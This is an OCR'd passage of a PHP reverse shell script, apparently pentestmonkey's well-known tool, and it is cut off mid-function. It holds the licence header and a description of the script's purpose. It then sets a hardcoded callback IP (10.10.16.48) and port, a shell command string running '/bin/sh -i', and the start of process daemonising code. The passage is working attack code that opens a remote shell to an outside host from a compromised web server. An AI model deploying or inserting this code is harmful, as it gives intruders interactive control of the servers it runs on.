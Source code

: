 ```php
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.16.48';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
```